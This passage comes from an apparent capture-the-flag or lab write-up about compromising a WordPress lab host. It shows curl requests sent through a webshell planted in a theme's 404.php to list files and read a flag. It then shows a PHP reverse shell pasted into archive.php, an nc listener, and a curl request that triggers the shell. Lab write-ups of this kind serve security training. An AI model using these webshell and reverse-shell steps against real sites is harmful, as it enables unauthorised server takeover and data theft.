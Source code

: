 I have created a webshell. Now I can send my linux commands :

```bash
url='http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php'
curl "$url?cmd=ls+-la+/home/erika"
curl "$url?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
```

I get the file `d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt` content and there is the flag inside of it.

### Reverse Shell

Then I copy the content of the file `/usr/share/webshells/php/php-reverse-shell.php` at the beggining of the file `archive.php` and edit the IP and PORT variables :

<figure><img src="../../../.gitbook/assets/script.png" alt=""><figcaption></figcaption></figure>

I open a listener on the attacker :

```bash
nc -lnvp 1234
```

I send a request to :

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/archive.php
```
